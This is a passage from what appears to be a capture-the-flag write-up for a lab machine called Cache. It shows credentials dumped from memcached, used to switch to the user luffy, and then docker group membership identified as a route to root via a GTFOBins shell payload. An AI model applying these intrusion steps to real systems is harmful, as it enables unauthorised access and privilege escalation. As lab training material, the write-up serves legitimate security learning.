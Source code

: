 ```
VALUE passwd 0 9
0n3_p1ec3
END

get file
get file
VALUE file 0 7
nothing
END

get account
get account
VALUE account 0 9
afhj556uo
END

quit
quit
```

Now we can use the creds: `luffy` / `0n3_p1ec3`.

```
$ su luffy
su luffy
Password: 0n3_p1ec3

luffy@cache:/$ cd
cd
luffy@cache:~$
```

### Privilege Escalation of Machine : luffy to root

We can see there is docker running and the user is in docker group.

```
$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
$ ps -ef f | grep docker
ps -ef f | grep docker
root       918     1  0 22:39 ?        Ssl    0:05 /usr/bin/dockerd -H fd://
root      1358   918  0 22:39 ?        Ssl    0:04  \_ containerd --config /var/run/docker/containerd/containerd.toml --log-level info
root      6934  1358  0 23:45 ?        Sl     0:00      \_ containerd-shim -namespace moby -workdir /var/lib/docker/containerd/daemon/io.containerd.runtime.v1.linux/moby/f211bc4cffb910b8c45b09d9eeec6c9483af4fff6222a5ca7c211aef6ca3bc94 -address /var/run/docker/containerd/containerd.sock -containerd-binary /usr/bin/containerd -runtime-root /var/run/docker/runtime-runc
```

Being in docker group is like being root because of the capabilities.

My reflex is to check [GTFOBins][gtfo] if there are some ready to use payloads
for pe, and [there is](https://gtfobins.github.io/gtfobins/docker/#shell<>).

